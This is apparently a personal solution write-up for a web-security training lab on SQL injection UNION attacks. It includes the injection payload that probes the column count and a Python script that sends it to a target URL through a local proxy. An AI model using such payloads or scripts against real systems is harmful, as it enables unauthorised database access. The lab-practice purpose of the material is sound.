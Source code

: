 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

---

**Payload:**
```php
/filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--
```

`GET request`

`needs session()`

```python
#!/usr/bin/python3

import sys
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def union_atk(s, url):
	exploit_url = url + "filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--"
	r = requests.get(exploit_url, verify=False, proxies=proxies)
	if 'Home' in r.text:
		print('(+) Exploit success!')
		
	else:
		print('(-) Exploit failed')

def main():
	if len(sys.argv) != 2:
		print('(+) Usage: %s www.example.com/' % sys.argv[0])
		sys.exit(-1)
	
	s = requests.Session()
	url = sys.argv[1]
	union_atk(s, url)

if __name__ == '__main__':
	main()
```

---

**Completed:** _17:35 2024-08-30_
